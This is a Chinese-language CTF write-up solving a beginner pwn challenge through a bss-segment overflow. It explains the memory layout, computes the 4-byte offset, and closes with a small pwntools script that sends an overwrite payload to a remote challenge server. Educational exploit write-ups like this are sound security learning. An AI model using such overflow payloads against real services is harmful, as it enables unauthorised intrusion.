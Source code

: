 > <p>pwn！，segment fault！菜鸡陷入了深思<br>
考点: bss段溢出</p>

#### <a class="reference-link" name="(4)wp"></a>(4)wp

我们首先把文件下载下来,`checksec`一下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_203_/t01c8f58e660da84d98.jpg)

还是老套路找入口函数`main`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/dm/1024_290_/t01f92d49de7a2e2bff.jpg)

然后我会直接双击`sub_400686`查看下函数内容.

[![](https://p4.ssl.qhimg.com/t014e314bf258cebd1b.jpg)](https://p4.ssl.qhimg.com/t014e314bf258cebd1b.jpg)

这样就很容易明白我们的目标是让等式成立。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](PWN%E5%85%A5%E9%97%A8%E7%B3%BB%E5%88%97(%E4%B8%80).assets/image-20191006222315601.png#alt=image-20191006222315601)

我们可以通过`read`控制`unk_601068` 10个字节。

这里涉及到`bss`段的概念

> <p>bss段主要存放未初始化的全局变量<br>
可以看到上面两个变量都是没有进行初始化的。<br>
bss段数据是向高地址增长的,所以说低地址数据可以覆盖高地址数据</p>

所以我们可以直接写出exp了 两者之间的相差4个字节 `0x6B-0x68=0x4`,我们还可0x10-0x4=12字节,

写入`1853186401`=`0x6E756161`小于int范围4字节足矣

```
#!/usr/bin/python
# -*- coding:utf-8 -*-

from pwn import *
ip, port = '111.198.29.45:44975'.split(':')
# print(ip, port)
c = remote(ip, port)
#接收完这个数据之后再发送.其实不要也行,得看服务端处理速度
c.recvuntil("lets get helloworld for bof") 
c.sendline('A'*4 + p64(1853186401))
c.interactive()
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/dm/1024_266_/t010e4c21e08f726c0c.jpg)
